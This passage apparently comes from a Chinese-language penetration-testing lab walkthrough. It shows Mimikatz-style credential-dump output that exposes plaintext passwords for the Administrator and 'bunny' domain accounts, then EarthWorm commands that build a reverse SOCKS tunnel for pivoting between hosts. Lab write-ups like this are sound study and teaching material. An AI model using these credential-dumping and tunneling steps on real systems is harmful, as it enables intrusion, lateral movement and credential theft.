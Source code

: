```cmd
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : PC1$
Domain            : WHOAMIANONY
Logon Server      : (null)
Logon Time        : 2025/3/13 17:27:42
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : PC1$
	 * Domain   : WHOAMIANONY
	 * Password : %Yn!@ZW,eWz5>[!hh;H.(&n(yh^2YADmU*2bVx<N#yvw.9MTwmi;84''uRaucL)mw7I42S>sUE#r&u]vz6\/:5A.s5nLrko+zfn@])/"$V6?sDZel=f>[ol;
	kerberos :	
	 * Username : pc1$
	 * Domain   : WHOAMIANONY.ORG
	 * Password : %Yn!@ZW,eWz5>[!hh;H.(&n(yh^2YADmU*2bVx<N#yvw.9MTwmi;84''uRaucL)mw7I42S>sUE#r&u]vz6\/:5A.s5nLrko+zfn@])/"$V6?sDZel=f>[ol;
	ssp :	
	credman :	
```

**Administrator** 账户：

```cmd
 * Username : Administrator
 * Domain   : WHOAMIANONY
 * Password : Whoami2021
```

这个 `Whoami2021` 就是明文密码，可以直接使用。

**bunny** 账户：

```cmd
 * Username : bunny
 * Domain   : WHOAMIANONY
 * Password : Bunny2021
```

`Bunny2021` 也是可直接使用的明文密码。

*****

### 搭建第三层隧道

- 同理建立socks连接

```cmd
#本机执行
ew_for_Win.exe -s rcsocks -l 1081 -e 5678

#靶机执行
ew_for_Win.exe -s rssocks -d 192.168.0.7 -e 5678
```
